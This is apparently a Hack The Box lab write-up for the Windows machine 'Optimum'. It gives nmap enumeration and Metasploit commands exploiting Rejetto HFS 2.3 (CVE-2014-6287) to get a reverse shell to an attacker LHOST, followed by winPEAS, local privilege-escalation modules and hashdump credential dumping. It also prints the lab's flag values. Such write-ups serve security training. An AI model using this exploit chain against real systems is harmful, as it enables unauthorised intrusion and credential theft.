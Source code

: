 # Hack The Box - Optimum (10.10.10.8)

## 🧠 Summary

**Optimum** is a Windows machine vulnerable to remote code execution via **Rejetto HttpFileServer 2.3** (CVE-2014-6287). Using Metasploit, we gain initial access with a reverse shell and elevate privileges to `NT AUTHORITY\SYSTEM`. We attempt to gather user credentials post-exploitation, although some hash cracking attempts fail.

---

## 🔍 Enumeration

### 🔹 Nmap

```bash
nmap -p- optimum.htb --min-rate 5000
nmap -p 80 -sC -sV optimum.htb -oN nmap_alert
```

**Results:**
- Port 80: HttpFileServer 2.3 (HFS 2.3)

---

## 💥 Exploitation

### 🔸 Rejetto HFS RCE - CVE-2014-6287

```bash
msf6 > use exploit/windows/http/rejetto_hfs_exec
msf6 exploit(...) > set RHOSTS optimum.htb
msf6 exploit(...) > set LHOST 10.10.14.12
msf6 exploit(...) > run
```

✅ **Success:** Gained Meterpreter session as `OPTIMUM\kostas`.

---

## 🏁 Flags

```bash
C:\Users\kostas\Desktop>type user.txt
8caabc0f5be35b8d20806d90177ed205

C:\Users\Administrator\Desktop>type root.txt
25acf6353c34805023aab8425bd5e6e6
```

---

## 🔧 Privilege Escalation

### 🧩 Step 1: Upload and Run winPEAS

```bash
meterpreter > upload winPEASx86.exe
meterpreter > execute -f winPEASx86.exe
```

Used to scan for privilege escalation vectors.

---

### 🧩 Step 2: Local Exploit Suggester

```bash
msf6 > use post/multi/recon/local_exploit_suggester
msf6 post(...) > set SESSION 2
msf6 post(...) > run
```

**Findings:**
- Multiple working privilege escalation options:
  - `bypassuac_comhijack`
  - `ms16_032_secondary_logon_handle_privesc`
  - `cve_2020_0787` (BITS arbitrary file move)

Eventually gained SYSTEM privileges.

```bash
meterpreter > getuid
NT AUTHORITY\SYSTEM
```

---

## 🔐 Credential Dumping

```bash
meterpreter > hashdump
kostas:fb7c6aab6468ef0383f97a12b78ab8ac
```

- Attempted to crack `kostas` hash via hashcat (unsuccessful)
- Ran `post/windows/gather/credentials/windows_autologin` with no valid credentials found

---

## 📌 Notes

- Initial access was simple using **Rejetto HFS exploit** via Metasploit
- Multiple local privesc options worked — ideal for testing Metasploit post modules
- Credential gathering attempts were **inconclusive**, further research needed on credential recovery techniques

---

*Writeup by [inkedqt](https://github.com/inkedqt)*
